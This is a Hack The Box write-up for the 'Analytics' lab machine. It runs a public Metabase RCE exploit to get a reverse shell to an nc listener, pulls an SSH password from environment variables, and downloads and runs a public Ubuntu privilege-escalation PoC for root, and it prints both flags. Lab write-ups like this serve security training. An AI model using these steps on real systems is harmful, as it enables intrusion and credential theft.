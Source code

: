 ```yaml
---
layout: post
title: Analytics HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy]
img_path: /images/htb/easy/analytics/
image:
  path: icon.png
---
```


Another machine today! Not too hard I think I'm going to step up the difficulty!

**Machine created by:** [7u9y](https://app.hackthebox.com/users/260996) & [TheCyberGeek](https://app.hackthebox.com/users/114053)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.233 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-03 02:53 AEDT
Nmap scan report for 10.10.11.233
Host is up (0.017s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Lets edit our `/etc/hosts` and add a new entry (If we set it to `analytics.htb` it redirects us to `analytical.htb` so we will use that).

```
10.10.11.233 analytical.htb
```

Visiting [analytical.htb](http://analytical.htb:80) we see a common company landing page.

![Home Page](home.png)

After clicking `Login` were shown a new subdomain: `data.analytical.htb`.

Lets add that to the `/etc/hosts` file.

```
10.10.11.233 data.analytical.htb,analytical.htb
```

Visiting `data.analytical.htb` we see a Metabase login page.

![Metabase Login](metabase.png)

Looking for Metabase CVE's online I come across a [Pre-Auth RCE PoC](https://github.com/securezeron/CVE-2023-38646) which has a reverse shell script.

## Exploitation & Initial Access

Let's setup a listener locally with `nc`.

```
$ nc -lvnp 4444
```

And lets run the exploit:

```
$ python3 CVE-2023-38646-Reverse-Shell.py --rhost http://data.analytical.htb --lport 4444 --lhost 10.10.***.***
[DEBUG] Original rhost: http://data.analytical.htb
[DEBUG] Preprocessed rhost: http://data.analytical.htb
[DEBUG] Input Arguments - rhost: http://data.analytical.htb, lhost: 10.10.***.***, lport: 4444
[DEBUG] Fetching setup token from http://data.analytical.htb/api/session/properties...
[DEBUG] Setup Token: 249fa03d-fd94-4d5b-b94f-b4ebf3df681f
[DEBUG] Version: v0.46.6
...
[DEBUG] POST to http://data.analytical.htb/api/setup/validate failed with status code: 400
```

and on our listener we see a new shell!

```
Connection from 10.10.11.233:34544
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
218a8fec6c49:/$ whoami
whoami
metabase
```

## User Flag

Now looking through the `/app` directory I read `run_metabase.sh` and see its reading creds from environment variables.

```sh
# usage: file_env VAR [DEFAULT]
#    ie: file_env 'XYZ_DB_PASSWORD' 'example'
# (will allow for "$XYZ_DB_PASSWORD_FILE" to fill in the value of
#  "$XYZ_DB_PASSWORD" from a file, especially for Docker's secrets feature)
# taken from https://github.com/docker-library/postgres/blob/master/docker-entrypoint.sh
# This is the specific function that takes the env var which has a "_FILE" at the end and transforms that into a normal env var.
file_env() {
    local var="$1"
    local fileVar="${var}_FILE"
    local def="${2:-}"
    if [ "${!var:-}" ] && [ "${!fileVar:-}" ]; then
        echo >&2 "error: both $var and $fileVar are set (but are exclusive)"
        exit 1
    fi
    local val="$def"
    if [ "${!var:-}" ]; then
        val="${!var}"
    elif [ "${!fileVar:-}" ]; then
        val="$(< "${!fileVar}")"
    fi
    export "$var"="$val"
    unset "$fileVar"
}
```

Running `printenv` gives us the following output:

```
SHELL=/bin/sh
MB_DB_PASS=
HOSTNAME=218a8fec6c49
LANGUAGE=en_US:en
MB_JETTY_HOST=0.0.0.0
JAVA_HOME=/opt/java/openjdk
MB_DB_FILE=//metabase.db/metabase.db
PWD=/app
LOGNAME=metabase
MB_EMAIL_SMTP_USERNAME=
HOME=/home/metabase
LANG=en_US.UTF-8
META_USER=metalytics
META_PASS=An4lytics_ds20223#
MB_EMAIL_SMTP_PASSWORD=
USER=metabase
SHLVL=4
MB_DB_USER=
FC_LANG=en-US
LD_LIBRARY_PATH=/opt/java/openjdk/lib/server:/opt/java/openjdk/lib:/opt/java/openjdk/../lib
LC_CTYPE=en_US.UTF-8
MB_LDAP_BIND_DN=
LC_ALL=en_US.UTF-8
MB_LDAP_PASSWORD=
PATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
MB_DB_CONNECTION_URI=
JAVA_VERSION=jdk-11.0.19+7
_=/bin/printenv
OLDPWD=/
```

In there are the following credentials `metalytics:An4lytics_ds20223#`.

Let's use this on SSH:

```
$ ssh metalytics@analytical.htb
metalytics@analytical.htb's password:
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ cat user.txt
43b96c62ca27b47911880bebe17962df
```

And there's the user flag! <mark>43b96c62ca27b47911880bebe17962df</mark>

## Root Flag

I firstly check `sudo -l` for any living-off-the-land opportunities.

```
metalytics@analytics:~$ sudo -l
[sudo] password for metalytics:
Sorry, user metalytics may not run sudo on localhost.
```

Hmm...

Any SUID binaries? (`find / -type f -perm -04000 -ls 2>/dev/null`)

```
      842     40 -rwsr-xr-x   1 root     root        40496 Nov 24  2022 /usr/bin/newgrp
      697     72 -rwsr-xr-x   1 root     root        72072 Nov 24  2022 /usr/bin/gpasswd
     1111     56 -rwsr-xr-x   1 root     root        55672 Feb 21  2022 /usr/bin/su
     1187     36 -rwsr-xr-x   1 root     root        35192 Feb 21  2022 /usr/bin/umount
      573     44 -rwsr-xr-x   1 root     root        44808 Nov 24  2022 /usr/bin/chsh
      681     36 -rwsr-xr-x   1 root     root        35200 Mar 23  2022 /usr/bin/fusermount3
     2484    228 -rwsr-xr-x   1 root     root       232416 Apr  3  2023 /usr/bin/sudo
      876     60 -rwsr-xr-x   1 root     root        59976 Nov 24  2022 /usr/bin/passwd
      830     48 -rwsr-xr-x   1 root     root        47480 Feb 21  2022 /usr/bin/mount
      567     72 -rwsr-xr-x   1 root     root        72712 Nov 24  2022 /usr/bin/chfn
     1409     36 -rwsr-xr--   1 root     messagebus    35112 Oct 25  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    13994    332 -rwsr-xr-x   1 root     root         338536 Aug 24 13:40 /usr/lib/openssh/ssh-keysign
    13665     20 -rwsr-xr-x   1 root     root          18736 Feb 26  2022 /usr/libexec/polkit-agent-helper-1
```

None on GTFOBins...

Look at other port activity (`netstat -nltp`), nothing of interest exists their either. 

Nothing inside `printenv`, what now?

I looked up for privilege escalation vulnerabilities in the Ubuntu version supplied once we joined SSH (Ubuntu 22.04.3) and found [CVE-2023-2640 + CVE-2023-32629 PoC](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629) which gives root!

I cloned the PoC locally and hosted a local python server (`python3 -m http.server`) and downloaded the exploit on the server.

```
metalytics@analytics:/tmp$ chmod +x exploit.sh
metalytics@analytics:/tmp$ ./exploit.sh
[+] You should be root now
[+] Type 'exit' to finish and leave the house cleaned
root@analytics:/tmp# cat /root/root.txt
9db68c8ac70474f468afe8ca2ac44373
```

There's the root flag! <mark>9db68c8ac70474f468afe8ca2ac44373</mark>

Success!

![Success](submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).